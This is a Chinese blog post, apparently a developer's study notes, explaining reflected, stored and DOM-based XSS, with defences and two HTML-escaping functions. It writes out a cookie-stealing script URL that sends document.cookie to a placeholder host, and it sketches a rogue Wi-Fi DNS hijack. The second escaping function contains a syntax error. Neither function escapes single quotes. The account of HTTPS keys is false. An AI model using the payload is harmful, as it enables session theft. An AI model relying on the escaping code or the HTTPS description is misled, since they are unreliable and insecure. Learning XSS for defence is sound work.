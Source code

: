 ```yaml
---
title: 前端安全之XSS攻击
date: 2017-05-22 19:42:41
categories: "网络安全"
tags:
---
```

觉得自己要慢慢开始接触网络安全的相关内容了罢，以前看到都望而生畏。昨天浏览过后算是消除了一些的恐惧。好像这一块也并不是那么地难，而且也很重要。所以以后看到相关文章，还是可以记录学习的。
<!-- more -->
参考至[前端安全之XSS攻击]www.cnblogs.com/lovesong/p/5199623.html)

## XSS
**XSS**（cross-site scripting跨域脚本攻击）攻击是最常见的Web攻击，其重点是“跨域”和“客户端执行”。有人将XSS攻击分为三种，分别是：

1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

### Reflected XSS
基于反射的XSS攻击，主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击。

#### 例子
1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
1. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
1. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
1. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```

#### 结论：
如果只是1、2、3步做成功，那也只是自己折腾自己而已，如果第4步能做成功，才是个像样的XSS攻击。

**开发安全措施：**

1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

##### 例如：
标签：
```
<span><script>alert('handsome boy')</script></span>
```
转义：
```
<span>&lt;script&gt;alert(&#39;handsome boy&#39;)&lt;/script&gt</span>
```
属性：
如果一个input的value属性值是
```
琅琊榜" onclick="javascript:alert('handsome boy')
```
就可能出现
```
<input type="text" value="琅琊榜" onclick="javascript:alert('handsome boy')">
```
点击input导致攻击脚本被执行，解决方式可以对script或者双引号进行过滤。

### Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

#### 例子
1. 发一篇文章，里面包含了恶意脚本
```
今天天气不错啊！<script>alert('handsome boy')</script>
```
2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

#### 结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：

1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

### DOM-based or local XSS
基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

#### [例子](https://www.cnblogs.com/index-html/p/wifi_hijack_3.htm)
1. 提供一个免费的wifi。
2. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
3. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
4. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
5. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

#### 例子2
1. 还是提供一个免费wifi
1. 在我们电脑上进行抓包
1. 分析数据，可以获取用户的微信朋友圈、邮箱、社交网站帐号数据（HTTP）等。

#### 结论：
这攻击其实跟网站本身没有什么关系，只是数据被中间人获取了而已，而由于HTTP是明文传输的，所以是极可能被窃取的。

开发安全措施：
使用HTTPS！HTTPS会在请求数据之前进行一次握手，使得客户端与服务端都有一个私钥，服务端用这个私钥加密，客户端用这个私钥解密，这样即使数据被人截取了，也是加密后的数据。

## 总结
XSS攻击的特点就是：尽一切办法在目标网站上执行非目标网站上原有的脚本（某篇文章说的）。本地的XSS攻击的示例2其实不算XSS攻击，只是简单流量劫持。前两种XSS攻击是我们开发时候要注意的，而流量劫持的则可以使用HTTPS提高安全性。

终于有那么一天被我用上这个知识点了，直接贴方法！！
```
function htmlEscape(str){
  let s = '';
  if(str.length === 0)
    return '';
  for(let i = 0; i < str.length; i++){
    switch(str.substr(i, 1))
    {
      case '<': s += '&lt;'; break;
      case ">": s += "&gt;"; break;
      case "&": s += "&amp;"; break;
      case " ":
        if(str.substr(i + 1, 1) === " "){
            s += " &nbsp;";
            i++;
        } else s += " ";
        break;
      case "\"": s += "&quot;"; break;
      case "\n": s += "<br>"; break;
      default: s += str.substr(i,1); break;
    }
  }
  return s;
}
```

再贴一个从红宝书上看到的方法。感觉实现起来优雅很多。以后考虑整合一下吧。
```
function htmlEscape(text){
  return text.replace(/[<>"&]/g, function(match, pos, originalText) {
    switch(match){
      case "<":
        return "&lt;";
      case ">":
        return "&gt;";
      case "&":
        return "&amp;";
      case "\":
        return "&quot;";
      }
    })
}
```
